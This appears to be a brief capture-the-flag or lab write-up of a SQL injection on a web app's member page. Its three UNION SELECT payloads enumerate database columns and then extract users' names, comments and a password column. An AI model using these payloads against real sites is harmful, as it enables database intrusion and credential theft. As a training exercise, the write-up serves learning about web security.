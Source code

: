 ### Where:  

`/?page=member`

### How:  

1. Found `member` page by clicking on "Members" button on the home page
2. Tried to inject SQL in different manners until we've tried a `UNION` attack

    ```SQL
    1 UNION SELECT table_name, column_name FROM information_schema.columns
    ```

    Hmmm... Let us check the `first_name` of every member and by the way... What's `Commentaire`!?

    ```SQL
    1 UNION SELECT first_name, Commentaire FROM users
    ```

    "this password"? Which password!? Perhaps `countersign`?

    ```SQL
    1 UNION SELECT first_name, countersign FROM users
    ```

3. Do the necessary steps described in Flag's `Commentaire` on Flag's `countersign`
4. Found!
